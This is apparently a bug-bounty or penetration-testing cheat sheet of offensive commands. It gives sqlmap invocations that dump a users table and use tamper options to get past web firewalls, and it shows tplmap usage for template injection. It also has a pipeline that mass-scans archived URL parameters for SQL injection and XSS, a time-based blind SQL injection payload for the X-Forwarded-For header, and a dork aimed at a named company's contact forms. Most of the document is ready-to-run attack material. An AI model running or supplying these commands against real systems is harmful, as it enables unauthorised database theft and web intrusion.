 - sqlmap -u http://testphp.vulnweb.com/AJAX/infocateg.php?id=1 --dump -D acuart -T users



# Waf Bypass techniques Using Sqlmap :-

--batch --random-agent --tamper="space2comment" --level=5 --risk=3 --threads=10 --dbs


--level=5 --risk=3 --random-agent -v3 --tamper="between,randomcase,space2comment" --dbs

--level=5 --risk=3 --random-agent --user-agent -v3 --batch --threads=10 --dbs

-v3 --technique U --tamper="space2mysqlblank.py" --dbs

-v3 --technique U --tamper="space2comment" --dbs

__________________________________________________________________________________________________

## SSTI :-


FOR Testing SSTI and tplmap tool :-

- git clone https://github.com/epinna/tplmap.git

- ./tplmap.py -u "domain.com/?parameter=SSTI*"

__________________________________________________________________________________________________

- httpx -l live_subs.txt --status-code --title -mc 200 -path /phpinfo.php

- httpx -l live_subs.txt --status-code --title -mc 200 -path /composer.json

__________________________________________________________________________________________________



######## Testing for xss and sqli at the same time >_< ##############


- cat subdomains.txt | waybackurls | uro | grep "\?" | httpx -silent > param.txt

- sqlmap -m param.txt --batch --random-agent --level 1 | tee sqlmap.txt

- cat param.txt | kxss   

__________________________________________________________________________________________________


## Blind SQL Injection :-

Tips : X-Forwarded-For: 0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z


## Blind XSS :-

site:opsgenie.com inurl:"contact" | inurl:"contact-us" | inurl:"contactus" | inurl:"contcat_us" | inurl:"contact_form" | inurl:"contact-form"

## Go to xss.report website and create an account to test for blind xss Vulnerbilitites 
__________________________________________________________________________________________________
